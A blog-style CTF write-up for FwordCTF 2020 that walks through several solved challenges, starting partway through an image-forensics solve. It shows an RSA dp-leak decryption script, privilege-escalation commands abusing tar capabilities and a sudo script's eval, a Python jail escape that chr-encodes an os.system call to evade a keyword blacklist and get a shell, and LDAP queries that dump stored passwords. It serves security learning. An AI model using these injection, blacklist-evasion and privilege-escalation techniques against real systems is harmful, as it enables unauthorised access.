By gradually increasing the offset we seem to start getting a picture to form.



After some more fiddling this really does seem like text!
Taking it to GIMP and flipping the image vertically and horizontally gets us this:



This seems to be it! `FwordCTF{Paint_Skills_FTW!}`

When making this writeup, I noticed that I hadn't even looked at the challenge card that had the hint for the resolution.
After following that we can go to the following offset, with `RGB` mode instead of `RGB Alpha`: `6356980` and get a much better image that is probably very close to the original:



## One Part! (Cryptography) - 261 points {#One-Part}
This was a pretty simple Crypto challenge, solvable with just one website: https://0xdktb.top/2020/02/28/Summary-of-Crypto-in-CTF-RSA/<br/>
The problem statement:

> One part is secure ?
> 
> nc onepart.fword.wtf 4445

Upon connecting we would receive a "public pair" (`n` and `e`) and "extra info" (`dp` and `c`) - sadly I did not save the full output for this post, since I was still trying to finish some more challenges and was pretty tight on time.
Since I'm pretty bad at crypto, all I did was basically copy-paste and adapt the code to get the solution:

```python
from Crypto.Util.number import long_to_bytes
import gmpy2

public_pair = (9372538213889679454985599395148836834996879880003608265235785570648304156327222034313514721324289873226182977843315968680949902733375000940807364957502778184200120551682275053624535001211718576566433907314473212360740058907474062917710397572139350015148239391503940589266803942060414724789497403944562818162654362755242850835111302080149130459198734157275927426764110895957486992999678455289287586459701289017260589225153348187941415189658722848549174676499201338384940552184038715165721715009192257115315504961358171593387932775190790179399258438046245629245133233421596894031674269601529431849656894129561401764761, 65537)

n = 9372538213889679454985599395148836834996879880003608265235785570648304156327222034313514721324289873226182977843315968680949902733375000940807364957502778184200120551682275053624535001211718576566433907314473212360740058907474062917710397572139350015148239391503940589266803942060414724789497403944562818162654362755242850835111302080149130459198734157275927426764110895957486992999678455289287586459701289017260589225153348187941415189658722848549174676499201338384940552184038715165721715009192257115315504961358171593387932775190790179399258438046245629245133233421596894031674269601529431849656894129561401764761

e = 65537

dp = 97801665899178232246164027484033400234313950250258457697120219734930593404809607494559214166401040896501518805026355876469807481814252754298747247327018628572464262657700810454207434926197054304875348739433087987984841348947952718286365316171784324020173451648067235814110298810608540420344504272693032220089

c = 8324083334112885363031633397569871880012512629933814848984333409962565811335224641125516246623993263707402788260596697457842311905271500426474812285369026425606406427494996023507857977251923411921964788655751288113159836081716915844855114945049071102364286496299944959306338905322036437596590538233472163029017739435274543121848879341691272291014876882352873690859633641581188389341902499003203881743560927006188769847112021371083323819208046219777377565383897902938829128400973582191211267241718798473286362921217711664628981522976428160022281686231766291461855215356708884574485584282847818807231733524224174081268

def decrypt(e, dp, n):
    _ = dp * e - 1
    for i in range(1, e):
        if not _ % i:
            p = _ // i + 1
            if not n % p:
                q = n // p
                phi = (p - 1) * (q - 1)
                d = int(gmpy2.invert(e, phi))
                return d

# if __name__ == "__main__":
#     e = int(input("e = "))
#     dp = int(input("dp = "))
#     n = int(input("n = "))
#     c = int(input("c = "))
#     d = decrypt(e, dp, n)
#     print(long_to_bytes(pow(c, d, n)))

d = decrypt(e, dp, n)
print(long_to_bytes(pow(c, d, n)))
```

Running the script gets us the flag:

```
~/CTF/fword-2020/crypto/One Part py(ctf)
miguel@miguel-xps$ python3 solve.py
b'FwordCTF{i_knew_it_its_not_secure_as_i_thought}'
```

## CapiCapi (Bash) - 423 points {#CapiCapi}
This was a pretty fun challenge which reminded me a bit of HackTheBox:

> You have to do some privilege escalation in order to read the flag!
>
> Use the following SSH credentials to connect to the server, each participant will have an isolated environment so you only have to pwn me!
> 
> SSH Credentials
> 
> ssh -p 2222 ctf@capicapi.fword.wtf
> 
> Password: FwordxKahla

We land in a shell as `user1`, having a `flag.txt` file that we are unable to read in our current directory.
I managed to run [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) despite not having `wget`, `curl` or `netcat` by `base64`ing it and `echo -n <encoded_data> | base64 -d | sh`, copied over clipboard 😁 This highlighted several things that did not seem too interesting, but then also highlighted something that I had not explored before:

```
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Current capabilities:
CapInh:	00000000a80425ff
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	00000000a80425ff
CapAmb:	0000000000000000
Shell capabilities:
CapInh:	00000000a80425ff
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	00000000a80425ff
CapAmb:	0000000000000000
Files with capabilities:
/usr/bin/tar = cap_dac_read_search+ep
```

Reading the link provided by linpeas gets us a basic understanding of capabilities and how they can be abused for privilege escalation.
Since `tar` seems to have `CAP_DAC_READ_SEARCH` capabilities, it can bypass file and directory read/execute permission checks. This is perfect for our desired scenario.

As such, just [grabbing some commands for file reading from GTFOBins](https://gtfobins.github.io/gtfobins/tar/#file-read) allows us to read `flag.txt`:

```
user1@52981c1da85f:/home/user1$ export LFILE=flag.txt
user1@52981c1da85f:/home/user1$ tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}
```

## Bash is fun (Bash) - 478 points {#Bash-is-fun}
This was one of my favorite challenges from all the ones I tried. The problem statement:

> Bash is fun, prove me wrong and do some privesc. SSH Credentials
> ssh -p 2222 ctf@funbash.fword.wtf
> Password: FwOrDAndKahl4FTW 

Snooping around the shell to get some details

```
user1@0561f72b99b3:/home/user1$ sudo -l
Matching Defaults entries for user1 on 0561f72b99b3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 0561f72b99b3:
    (user-privileged) NOPASSWD: /home/user1/welcome.sh

user1@0561f72b99b3:/home/user1$ cat welcome.sh
#!/bin/bash
name="greet"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -n | --name )
    shift; name=$1
    ;;
  -u | --username )
    shift; username=$1
    ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo "Welcome To SysAdmin Welcomer \o/"

eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
export -f $name
isNew=0
if [[ $isNew -eq 1 ]];then
	$name
fi

if [[ $permission -eq 1 ]];then
	echo "You are: " 
	id
fi
```

In the current directory we have only 3 files: `welcome.sh` (shown above), `welcome.txt` and `flag.txt`.
The flag file is not readable due to being owned by `user-privileged`. However, it seems that we can execute `welcome.sh` as that user!

As such, I began looking at the script for potential ways to leak the file or privesc to `user-privileged`.
An injection in the function `$name` seemed like it would work, either by changing the function declaration inside the eval or something similar, and then trying to change the `$isNew` variable in order to call it.

However, these were false leads. When the `-p` or `--permission` flag is passed, `id` is ran.
Normally this evaluates to the command with the respective name, but if we change `$name` to make the function be called `id`, it will be executed instead!
After confirming that was the case, all it took was getting sed to print out the contents of the `flag.txt` file ([GTFOBins is also handy as a cheatsheet for \*nix programs](https://gtfobins.github.io/gtfobins/sed/#file-read)) via the `$username` variable and we get the flag!

```
user1@0561f72b99b3:/home/user1$ sudo -u user-privileged ./welcome.sh -n 'id' -u "user/' flag.txt ; } #" -p
Welcome To SysAdmin Welcomer \o/
You are:
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
```

With this, the function declaration would be:
```bash
function id { sed 's/user/user/' flag.txt ; } # welcome.txt ; }
```

I just made `sed` read the file directly, reverting the potential substitution by keeping the substitution string the same.
As you can see, I also commented out the rest of the command, which goes to show that we had RCE as `user-privileged` via the script, which could enable us to get an escalated bash shell for example.
Overall great challenge, very different from the "usual" categories and pretty interesting but still accessible!

## Directory Manager (Misc) - 495 points {#Directory-Manager}
This was the last challenge I managed to complete, nearly not making it after finishing the hardest part of the challenge!<br/>
The problem statement (also had a tag of `python`):

> Get me out of this fucking hell !!
> 
> nc directorymanager.fword.wtf 1234

The statement along with the tag made me think straight away that this was a python jail we had to break out of.
At the time I started it I likely had an hour and a half left, but went to check out some `bash` challenges first.
After getting stuck in a challenge named `JailBoss` from the `Bash` category, I remembered about this one and thus came back for it since I thought it would be easier.
For this one I had some ideas while for the other not so much!

Upon connecting we were faced with a simple prompt that took our input and executed it in some cases (simple calculations, etc.). A lot of the time there was no output at all, and the connection was always closed after a command was sent. When there was no output, I assumed that the command was being filtered and thus nothing being displayed. After trying to use `os` functions, import packages and some other ideas I had at the time, I finally thought to go back to the basics and finally got some meaningful output:

```
~/CTF/fword-2020/misc/Directory Manager
miguel@miguel-xps$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir()
['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__warningregistry__', 'conn', 'inp', 'isallowed', 'ldap']
```

Good old `dir` always helps out in python jails, by identifying loaded modules, variables and such.
In this case `ldap` seemed interesting straight away, but I didn't know exactly what to do with it for now.
As such, I set my goal on trying to exfiltrate the program's source.
The following attempt felt pretty close, but was cut off near the end:

```
~/CTF/fword-2020/misc/Directory Manager
miguel@miguel-xps$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
__file__
directories.py

~/CTF/fword-2020/misc/Directory Manager
miguel@miguel-xps$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir(eval(dir()[0]))[115] + '(' + __file__ + ').read()'
open(directories.py).read()

~/CTF/fword-2020/misc/Directory Manager
miguel@miguel-xps$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
eval(dir(eval(dir()[0]))[115] + '(' + __file__ + ').read()')
```

`__file__` gave us the name of the file, and it seemed like we could build the string by accessing elements of `dir()[0]` aka `__builtins__` to get the `open` function and thus construct the code in a "safe" way.
Sadly, even after looking at the script that I eventually exfiltrated, I am not yet sure why this did not work. (**Update:** Now I noticed I did not include `'` so `directories.py` was probably evaluated as a variable. Whoops)

After this, I started thinking that the input is most likely searched for specific keywords that are "blacklisted".
Thus, I started thinking of ways to construct strings that would not be detected. One typical approach is to play with upper and lowercase and then use string functions to work around that and build the desired string.
However, the CTF was probably half an hour from closing and I was pretty desperate and did not remember python's string function syntax. So I went with a low tech but effective solution, that ended up working: Converting the string to `chr()` calls which would build the string. Then, we could just `eval` it and we would have RCE!

So I did something like this at the time (didn't have time to write down what I did in the python prompt):
```
>>> '__import__("os").system("ls")'
'__import__("os").system("ls")'
>>> [ord(e) for e in '__import__("os").system("ls")']
[95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 111, 115, 34, 41, 46, 115, 121, 115, 116, 101, 109, 40, 34, 108, 115, 34, 41]
>>> [f"chr({x}) + " for x in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 111, 115, 34, 41, 46, 115, 121, 115, 116, 101, 109, 40, 34, 108, 115, 34, 41]]
['chr(95) + ', 'chr(95) + ', 'chr(105) + ', 'chr(109) + ', 'chr(112) + ', 'chr(111) + ', 'chr(114) + ', 'chr(116) + ', 'chr(95) + ', 'chr(95) + ', 'chr(40) + ', 'chr(34) + ', 'chr(111) + ', 'chr(115) + ', 'chr(34) + ', 'chr(41) + ', 'chr(46) + ', 'chr(115) + ', 'chr(121) + ', 'chr(115) + ', 'chr(116) + ', 'chr(101) + ', 'chr(109) + ', 'chr(40) + ', 'chr(34) + ', 'chr(108) + ', 'chr(115) + ', 'chr(34) + ', 'chr(41) + ']
>>> ''.join([f"chr({x}) + " for x in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 111, 115, 34, 41, 46, 115, 121, 115, 116, 101, 109, 40, 34, 108, 115, 34, 41]])
'chr(95) + chr(95) + chr(105) + chr(109) + chr(112) + chr(111) + chr(114) + chr(116) + chr(95) + chr(95) + chr(40) + chr(34) + chr(111) + chr(115) + chr(34) + chr(41) + chr(46) + chr(115) + chr(121) + chr(115) + chr(116) + chr(101) + chr(109) + chr(40) + chr(34) + chr(108) + chr(115) + chr(34) + chr(41) + '
```

(Yes, I copied those lists by hand from one command to the next - I believe that my initial attempt must have been even more crude, likely joining the `chr` strings in vim for example until eventually taking advantage of the loop to do it.) This would, in theory, allow us to bypass the protection and execute arbitrary python code, so I started trying to get a shell. After creating the right payload we get one! We then perform the typical tty upgrade and switching to bash to get a better prompt and start digging:

```
eval(chr(95) +chr(95) +chr(105) +chr(109) +chr(112) +chr(111) +chr(114) +chr(116) +chr(95) +chr(95) +chr(40) +chr(34) +chr(111) +chr(115) +chr(34) +chr(41) +chr(46) +chr(115) +chr(121) +chr(115) +chr(116) +chr(101) +chr(109) +chr(40) +chr(34) +chr(115) +chr(104) +chr(34) +chr(41))
# Translates to eval('__import__("os").system("sh")')
fword@0cf137fc2531:/home/fword$ ls
directories.py  ynetd
fword@0cf137fc2531:/home/fword$ cat directories.py 
#!/bin/python2
import ldap

def isallowed(input):
	blacklist = ["s","search","flag","conn","os","import","execv","open","ldap"]
	for el in blacklist:
		if el in input:
			return 0
	return 1
try:
	conn = ldap.initialize('ldap://openldap')
	conn.set_option(ldap.OPT_REFERRALS, 0)
	conn.protocol_version = ldap.VERSION3
	conn.simple_bind_s("cn=admin,dc=fwordctfdomain,dc=org", "F'97!=5~5sM*")
	print("Welcome to our Directory Manager, what do you want to execute : ")
	inp = raw_input()
	if isallowed(inp):
		print eval(inp)
	else:
		print("Thank you !")
	conn.unbind()
except ldap.LDAPError as e:
	print (str(e))

fword@0cf137fc2531:/home/fword$ ls -la /home
total 12
drwxr-xr-x 1 root root 4096 Aug 28 21:08 .
drwxr-xr-x 1 root root 4096 Aug 30 05:22 ..
drwxr-xr-x 1 root root 4096 Aug 28 22:03 fword
fword@0cf137fc2531:/home$ find / -iname flag
find: '/var/cache/ldconfig': Permission denied
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/proc/tty/driver': Permission denied
find: '/proc/3822/task/3822/fd': Permission denied
find: '/proc/3822/task/3822/fdinfo': Permission denied
find: '/proc/3822/task/3822/ns': Permission denied
find: '/proc/3822/fd': Permission denied
find: '/proc/3822/map_files': Permission denied
find: '/proc/3822/fdinfo': Permission denied
find: '/proc/3822/ns': Permission denied
find: '/etc/ssl/private': Permission denied
find: '/root': Permission denied
```

I think that it is time to go back to the LDAP connection. With about 10-20 minutes to close, I open a python prompt up again and replicate the LDAP instructions in the script.
After struggling for a while due to not really understanding LDAP a lot, especially via a python interface, I eventually thought to remove the `cn=admin` entry (which now I know is called a Common Name) and finally get the flag, which was submitted with only a few minutes to spare! (there's a section where the output got a bit garbled, since I had not yet set the stty rows and columns. I dipped out of the python REPL for a bit and did that so the rest of the output is not garbled anymore)

```
>>> import ldap
>>> conn = ldap.initialize('ldap://openldap')
>>> conn.set_option(ldap.OPT_REFERRALS, 0)
>>> conn.protocol_version = ldap.VERSION3
>>> conn.simple_bind_s("cn=admin,dc=fwordctfdomain,dc=org", "F'97!=5~5sM*")
>>> conn.search_s("cn=admin,dc=fwordctfdomain,dc=org", ldap.SCOPE_SUBTREE, '*')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/local/lib/python2.7/dist-packages/ldap/ldapobject.py", line 870, in search_s
    return self.search_ext_s(base,scope,filterstr,attrlist,attrsonly,None,None,timeout=self.timeout)
  File "/usr/local/lib/python2.7/dist-packages/ldap/ldapobject.py", line 863, in search_ext_s
    msgid = self.search_ext(base,scope,filterstr,attrlist,attrsonly,serverctrls,clientctrls,timeout,sizelimit)
  File "/usr/local/lib/python2.7/dist-packages/ldap/ldapobject.py", line 859, in search_ext
    timeout,sizelimit,
  File "/usr/local/lib/python2.7/dist-packages/ldap/ldapobject.py", line 340, in _ldap_call
    reraise(exc_type, exc_value, exc_traceback)
  File "/usr/local/lib/python2.7/dist-packages/ldap/ldapobject.py", line 324, in _ldap_call
    result = func(*args,**kwargs)
ldap.FILTER_ERROR: {'ctrls': [], 'result': -7, 'desc': u'Bad search filter'}
jectClass=User)'')"cn=admin,dc=fwordctfdomain,dc=org", ldap.SCOPE_SUBTREE, ''(obj
  File "<stdin>", line 1
    conn.search_s("cn=admin,dc=fwordctfdomain,dc=org", ldap.SCOPE_SUBTREE, ''(objectClass=User)'')
                                                                                 >> conn.search_s("cn=admin,dc=fwordctfdomain,dc=org", ldap.SCOPE_SUBTREE, fdomain,dc=org", ldap.SCOPE_SUBTREE, '(obje
jectClass=User)')"cn=admin,dc=fwordctfdomain,dc=org", ldap.SCOPE_SUBTREE, ''(obj
[]
>>> conn.search("cn=admin,dc=fwordctfdomain,dc=org", ldap.SCOPE_SUBTREE)
2
>>> conn.search_s("cn=admin,dc=fwordctfdomain,dc=org", ldap.SCOPE_SUBTREE)
[('cn=admin,dc=fwordctfdomain,dc=org', {'objectClass': ['simpleSecurityObject', 'organizationalRole'], 'userPassword': ['{SSHA}NaiVs2jWVvkn0mBUpWs/JWxLov4b6KQk'], 'cn': ['admin'], 'description': ['LDAP administrator']})]
>>> conn.search_s("dc=fwordctfdomain,dc=org", ldap.SCOPE_SUBTREE)
[('dc=fwordctfdomain,dc=org', {'objectClass': ['top', 'dcObject', 'organization'], 'dc': ['fwordctfdomain'], 'o': ['FwordTeam']}), ('cn=admin,dc=fwordctfdomain,dc=org', {'objectClass': ['simpleSecurityObject', 'organizationalRole'], 'userPassword': ['{SSHA}NaiVs2jWVvkn0mBUpWs/JWxLov4b6KQk'], 'cn': ['admin'], 'description': ['LDAP administrator']}), ('cn=fword,dc=fwordctfdomain,dc=org', {'objectClass': ['person'], 'userPassword': ['FwordCTF{n0thinG_c4n_st0P_y0u_fr0M_ach1evinG_y0uR_GoAL}'], 'sn': ['fword player'], 'cn': ['fword CTF player', 'fword']})]
```

By extending the scope of our LDAP search query, we find a person with the flag as the password: `FwordCTF{n0thinG_c4n_st0P_y0u_fr0M_ach1evinG_y0uR_GoAL}`

## Sign-off

A huge thanks to the FWord CTF organizers for setting up the challenges. It was a blast of a CTF and one of the best I've participated in for sure! Not only for how varied the challenges were (both in terms of areas and difficulty) but also due to how easily reachable the organization was. Whenever there was an issue they were always reachable and quick to address the problems. They were even kind enough to create participation certificates for all of the teams with a non-zero score! I think they look pretty cool, what about you?



The Memory challenges made for an interesting concept of challenges that are linked in sequence with each other (despite some part sadly being trivialized by `strings` + `grep`ing the flag format).
If I ever host a CTF one day, I might try to do something like this :)

As a note to myself, I really need to learn RE and pwn since I couldn't even get the easiest challenges for each of those and they are in virtually every CTF. I should've also been able to get some of the Web challenges, though I only looked at the first one and it seemed harder than usual. I have started trying [microcorruption embedded security CTF](https://microcorruption.com) before the CTF to try and practice some RE/Pwning, but have yet to make noticeable progress (only completed a couple levels). It seems like an interesting platform though, so I thought I'd recommend it here in an attempt to also make myself keep working on it 😁

I hope you enjoyed reading about these challenges, just like I enjoyed solving them.<br/>
And as always: thanks for reading!
